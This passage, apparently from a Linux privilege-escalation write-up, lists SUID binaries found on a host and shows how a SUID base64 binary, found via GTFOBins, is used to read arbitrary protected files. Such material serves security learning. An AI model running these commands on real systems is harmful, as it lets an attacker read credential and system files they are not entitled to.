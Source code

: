 17812176   60 -rwsr-xr-x   1 root     root        57656 Aug  9  2019 /usr/bin/crontab
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo
34469385   12 -rwsr-xr-x   1 root     root        11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
34469387   36 -rwsr-xr-x   1 root     root        36272 Apr  1  2020 /usr/sbin/unix_chkpwd
36070283   12 -rwsr-xr-x   1 root     root        11296 Oct 13  2020 /usr/sbin/usernetctl
35710927   40 -rws--x--x   1 root     root        40328 Aug  9  2019 /usr/sbin/userhelper
38394204  116 -rwsr-xr-x   1 root     root       117432 Sep 30  2020 /usr/sbin/mount.nfs
958368   16 -rwsr-xr-x   1 root     root        15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
37709347   12 -rwsr-xr-x   1 root     root        11128 Oct 13  2020 /usr/libexec/kde4/kpac_dhcp_helper
51455908   60 -rwsr-x---   1 root     dbus        57936 Sep 30  2020 /usr/libexec/dbus-1/dbus-daemon-launch-helper
17836404   16 -rwsr-xr-x   1 root     root        15448 Apr  1  2020 /usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
18393221   16 -rwsr-xr-x   1 root     root        15360 Oct  1  2020 /usr/libexec/qemu-bridge-helper
37203442  156 -rwsr-x---   1 root     sssd       157872 Oct 15  2020 /usr/libexec/sssd/krb5_child
37203771   84 -rwsr-x---   1 root     sssd        82448 Oct 15  2020 /usr/libexec/sssd/ldap_child
37209171   52 -rwsr-x---   1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x---   1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap


```

```
\16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
```

Step3 - user GFTOBins.github.io search base64 -> select SUID

![img](/assets/img/lpe68.png)

```
sudo install -m =xs $(which base64) .
LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```